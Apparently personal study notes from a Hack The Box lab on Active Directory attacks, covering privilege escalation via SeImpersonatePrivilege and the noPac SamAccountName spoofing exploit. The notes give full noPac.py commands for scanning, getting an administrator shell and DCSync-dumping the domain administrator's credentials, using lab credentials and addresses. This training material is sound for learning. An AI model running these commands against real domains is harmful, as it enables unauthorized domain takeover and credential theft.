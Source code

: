 Enumerating Rights on System using xp_cmdshell
![[Pasted image 20230103183620.png]]
- With SeImpersonatePrivilege we could use JuicyPotato, PrintSpoofer, or RoguePotato to escalate to SYSTEM level privileges, depending on the target host, and use this access to continue toward our goal.


## Bleeding Edge Vulnerabilities

NoPac (SamAccountName Spoofing)
A great example of an emerging threat is the Sam_The_Admin vulnerability, also called noPac
or referred to as SamAccountName Spoofing released at the end of 2021. This vulnerability
encompasses two CVEs 2021-42278 and 2021-42287, allowing for intra-domain privilege
escalation from any standard domain user to Domain Admin level access in one single
command.
- Takes advantage of being able to change the SamAccountName of a computer account to that of a Domain Controller
- By default, authenticated users can add up to ten computers to a domain.
- Add a computer change the name to that of a Domain Controller
- Request a Kerberos ticket causing the service to issue a ticket under the DC's name

Tool to perform the attack:
Ridter/noPac: Exploiting CVE-2021-42278 and CVE-2021-42287 to impersonate DA from standard domain user (github.com)

Pre-requisites:
![[Pasted image 20230103183818.png]]

1. Scan for NoPac to see if the network is vulnerable
```
TeneBrae93@htb[/htb]$ sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap
```
- "Current ms-DS-MachineAccountQuota = 10" -- this means it's vulnerable

2. Run NoPac & Getting a Shell
```
TeneBrae93@htb[/htb]$ sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap
```
- Semi-interactive shell with smbexec.py
- Need to use exact paths instead of navigating the directory structure using cd

3. Confirming the Location of Saved Tickets
![[Pasted image 20230103184032.png]]

4. Using NoPac to DCSync the Built-in Administrator Account
```
TeneBrae93@htb[/htb]$ sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5 -dc-host ACADEMY-EA-DC01 --impersonate administrator -use-ldap -dump -just-dc-user INLANEFREIGHT/administrator
```

